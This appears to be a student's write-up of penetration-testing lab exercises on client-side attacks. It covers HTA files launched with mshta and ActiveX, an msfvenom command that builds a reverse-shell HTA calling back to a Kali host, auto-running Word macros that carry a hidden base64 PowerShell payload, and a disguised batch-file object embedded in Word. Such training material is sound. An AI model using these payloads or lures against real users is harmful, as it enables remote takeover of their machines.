 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```

Placing this in our html folder on our kali machine and then navigated to the poc.hta endpoint on our windows test machine and we see the following:
![[Pasted image 20220715172425.png]]

When we run the PoC we get a successful calc.exe command:
![[Pasted image 20220715172534.png]]


Now we can move into utilizing msfvenom to alter our hta page and create a new powershell based payload. We can use the following command:
`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/reverse.hta`

Once generated, we need to setup a listener on the specified port and navigate to the endpoint on our Windows test machine and we will get a reverse shell.

![[Pasted image 20220715173157.png]]
![[Pasted image 20220715173122.png]]

**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**
Yes, upon testing with Microsoft Edge the hta file was successful in obtaining a reverse shell.

![[Pasted image 20220715173422.png]]
![[Pasted image 20220715173441.png]]
Upon clicking "Run" we recieve our connection.
![[Pasted image 20220715173521.png]]


# 13.3.3 Microsoft Word Macro
#### Exercises
**1. Use the PowerShell payload from the HTA attack to create a Word macro that sends a reverse shell to your Kali system.**

To start, we need to create a framework for our Microsoft Word macro. We use the following code as that framework:
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "cmd"
  
End Sub

```
This includes the AutoOpen and Document_Open procedures, which will cause the macro to run automatically.

Upon reopening the document, we see that a warning is present warning that macros are enabled.
![[Pasted image 20220715175358.png]]

Once the victim clicks "Enable Content" our PoC macro executes and we see cmd.exe.
![[Pasted image 20220715175549.png]]

From here we are going to turn to Powershell in order to reuse our Metasploit shellcode. We first declare a variable called "Str".  From there we need to set our variable to the base64 encoded string of the shellcode. As VBA has a 255 character limit for strings we can split the command into multiple lines before concatenated them. To do this we will use the following python code.

```
str = "powershell.exe -nop -w hidden -e BASE64_ENCODED_SHELL....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```
We then update our macro to include this newly split shellcode and to run the variable "Str" which is set to this shellcode.
![[Pasted image 20220715180707.png]]

From here, we just need to start a listener and open the document and we recieve our reverse shell.
![[Pasted image 20220715180802.png]]

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**

To begin, we need to create a batch to be embedded into Microsoft Word. To do this we simply echo our base64 encoded shellcode into an object named "lanch.bat" 
![[Pasted image 20220715215507.png]]

We then need to open Microsoft Word and insert our launch.bat object.
![[Pasted image 20220715215735.png]]

We can even change the name and icon of the malicious file to be more inconspicuous. 
![[Pasted image 20220715220140.png]]

Once we open our Word document and launch our object we will recieve a reverse shell.
![[Pasted image 20220715221253.png]]
![[Pasted image 20220715221353.png]]

# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**

We can trigger the Protected View by simply downloading our document from our Apache web server.
![[Pasted image 20220716163717.png]]
![[Pasted image 20220716163746.png]]

**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**




**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**